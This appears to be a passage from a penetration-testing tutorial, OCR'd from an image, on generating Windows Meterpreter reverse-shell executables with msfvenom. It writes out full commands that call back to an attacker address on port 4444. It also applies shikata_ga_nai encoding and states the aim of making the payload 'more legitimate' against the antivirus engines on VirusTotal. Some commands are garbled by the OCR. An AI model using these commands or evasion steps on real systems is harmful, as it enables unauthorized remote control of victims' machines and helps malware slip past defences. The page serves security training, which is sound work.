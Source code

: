 # 4_Exploiting Systems

`msfvenom` is a powerful tool within the Metasploit Framework that can be used to generate custom payloads and exploits. It can bypass antivirus software and firewall protections. The basic syntax is `msfvenom -p [payload] [options] -f [format]`. Common payloads include `windows/meterpreter/reverse_tcp` and `linux/x86/meterpreter/reverse_tcp`. The payload can be customized using options such as LHOST, LPORT, encoder, and output file name. It is important to have a good understanding of the target system and to use the payload responsibly and ethically.

### `msfvenom -p windows/meterpreter/reverse_tc LHOST=172.30.1.36 LPORT=4444 - f exe -o payload1.exe`

This command generates a payload with the `windows/meterpreter/reverse_tcp` payload and sets the LHOST to `172.30.1.36` and LPORT to `4444`. The payload is then output to an executable file with the name `payload1.exe` using the `-o` option. The format of the output file is specified using the `-f` option, which in this case is set to `exe`. This payload can then be used in a Metasploit attack against a target machine. It is important to note that using such tools and payloads for unauthorized purposes is illegal and can lead to severe consequences.

`payload1.exe`  contains a payload that can be used to exploit a vulnerable target system. In this case, the payload is designed to create a reverse TCP connection to the attacker's machine.

The `windows/meterpreter/reverse_tcp` payload is a type of payload that can be used to establish a connection between the attacker's machine and the target machine. Once the connection is established, the attacker can gain remote access to the target machine and execute commands on it.

It is important to note that using such tools and payloads for unauthorized purposes is illegal and can lead to severe consequences. It is essential to have a good understanding of the target system and to use the payload responsibly and ethically.

## VirusTotal

[VirusTotal](https://www.virustotal.com/gui/home/upload) is a free online service to scan files for malware using multiple antivirus engines simultaneously. It provides a report listing which antivirus engines detected the file as malware, along with other metadata. VirusTotal is useful for quick analysis of suspicious files, but it should not be relied upon as the sole source of information. It is commonly used by cybersecurity professionals and researchers.

We will try the generated .exe files againts different antiviruses using VirusTotal and see how to make our payload more legitimate each time. 

### `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.30.1.36 LPORT=4444 -f exe -o payload2.exe -e ×86/shikata_ga_nai -i 9`

This command uses the `msfvenom` tool to generate a payload that can be used to exploit a vulnerable Windows system. The payload is designed to create a reverse TCP connection to the attacker's machine, which allows the attacker to gain remote access to the target machine and execute commands on it. The `LHOST` and `LPORT` options specify the attacker's IP address and port number, respectively, which are used to establish the connection. The `-f` option specifies the format of the output file, which in this case is an executable file (`exe`). The `-o` option specifies the name of the output file (`payload2.exe`).
